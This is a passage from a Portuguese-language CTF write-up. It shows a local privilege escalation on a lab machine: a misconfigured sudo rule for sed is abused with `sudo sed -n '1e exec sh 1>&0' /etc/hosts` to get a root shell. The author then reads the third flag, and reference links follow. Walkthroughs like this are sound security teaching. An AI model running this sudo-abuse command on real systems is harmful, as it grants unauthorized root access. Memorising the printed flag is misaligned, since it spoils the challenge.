![sed](sed.png)

Então podemos utilizar o comando `sudo sed -n '1e exec sh 1>&0' /etc/hosts` para executar um shell como `root`.

```bash
cleo@ctf-1:~$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
# whoami
root
```

Agora que somos o usuário `root` vamos capturar a ultima flag.

Ao listar os arquivos do diretório `/root` temos:

```bash
# cd ~
# ls
flag_3.txt  snap  Website
```

A flag está no arquivo `flag_3.txt`. Vamos ler o conteúdo desse arquivo para obter a terceira flag do desafio.

```bash
# cat flag_3.txt
CTF{5ud0_pr1v_35c4l4710n}
```

Então temos que a terceira flag do desafio é:
> `CTF{5ud0_pr1v_35c4l4710n}`

---

## **<a id="4">• Referências.</a>**

- [SUID Executables](https://pentestlab.blog/2017/09/25/suid-executables/)
  
- [GTFOBins](https://gtfobins.github.io)

- [Privilege Escalation on Linux](https://delinea.com/blog/linux-privilege-escalation)


---

## **<a id="5">• CTF.</a>**

  - [Misconfiguration](http://140.238.183.68)